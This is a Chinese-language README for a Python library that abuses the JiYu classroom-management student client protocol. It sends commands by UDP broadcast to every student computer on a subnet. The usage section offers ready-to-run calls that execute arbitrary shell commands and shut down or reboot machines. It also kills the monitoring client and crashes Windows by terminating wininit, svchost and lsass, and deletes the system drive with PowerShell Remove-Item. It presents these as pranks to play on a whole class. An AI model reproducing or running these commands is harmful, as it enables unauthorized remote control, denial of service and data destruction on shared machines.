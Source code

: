 # JiYuClient Protocol

抓包制作的
极域学生端协议库 [测试中]  
可以通过极域的协议 极域 UDP/IP 来控制极域学生端
目前由于没有环境测试, 所以不能保证 100% 可用

## 用法

clone 项目，导入 JiyuProtocol

    import ipaddress
    from jiyu_ptl import JiyuProtocol

    # 建议保存网段以方便后续调用: 
    ip4n = ipaddress.ip_network("192.168.0.0/24”) # 广播网段, 请将

### 执行命令

    JiyuProtocol.send_content("msg %USERNAME% Hello World", is_cmd=True, ip_network=ip4n) #弹窗 Hello World, 在 192.168.0.0/24 的所有学生端

### 极域消息

    JiyuProtocol.send_content("Hello World", ip_network=ip4n) # 极域消息 Hello World, 在 192.168.0.0/24 的所有学生端

### 关机重启

    JiyuProtocol.send_shutdown(ip_network=ip4n) # 关机
    JiyuProtocol.send_shutdown(is_reboot=True,ip_network=ip4n) # 重启

### 指定 IP Addresses

#### 示例1

    ip_addrs = []
    ip_addrs.append(ipaddress.ip_address("192.168.0.15")) # 目标 IP
    JiyuProtocol.send_content("msg %USERNAME% Hello World", is_cmd=True, ip_addresses=ip_addrs)

#### 示例2

    JiyuProtocol.send_content("msg %USERNAME% Hello World", is_cmd=True, ip_addresses=('192.168.0.15', ))

### 用例

#### 帮助全班同学解除控制(

    JiyuProtocol.send_content("taskkill -f -im StudentMain.exe", is_cmd=True, ip_network=ipaddress.ip_network("192.168.0.0/24")) # 将 '192.168.0.0/24' 换成机房的网段

#### 帮助全班电脑蓝屏(

    # 有一定可能会被杀毒软件拦截
    # 干掉 系统初始化 (Win10+ 有可能无效)
    JiyuProtocol.send_content("taskkill -f -im wininit.exe", is_cmd=True, ip_network=ipaddress.ip_network("192.168.0.0/24")) # 将 '192.168.0.0/24' 换成机房的网段
    # 干掉 系统服务
    JiyuProtocol.send_content("taskkill -f -im svchost.exe", is_cmd=True, ip_network=ipaddress.ip_network("192.168.0.0/24")) # 将 '192.168.0.0/24' 换成机房的网段
    # 干掉 本地安全权限服务 (负责部分 HANDLE 处理, 干掉之后无法结束进程, 关机重启或取消关机重启等)
    JiyuProtocol.send_content("taskkill -f -im lsass.exe", is_cmd=True, ip_network=ipaddress.ip_network("192.168.0.0/24")) # 将 '192.168.0.0/24' 换成机房的网段

#### 帮助全班删系统(

    JiyuProtocol.send_content('powershell -c "Remove-Item -Force $Env:SystemRoot"; powershell -c "Remove-Item -Force $Env:SystemDrive"', is_cmd=True, ip_network=ipaddress.ip_network("192.168.0.0/24")) # 将 '192.168.0.0/24' 换成机房的网段
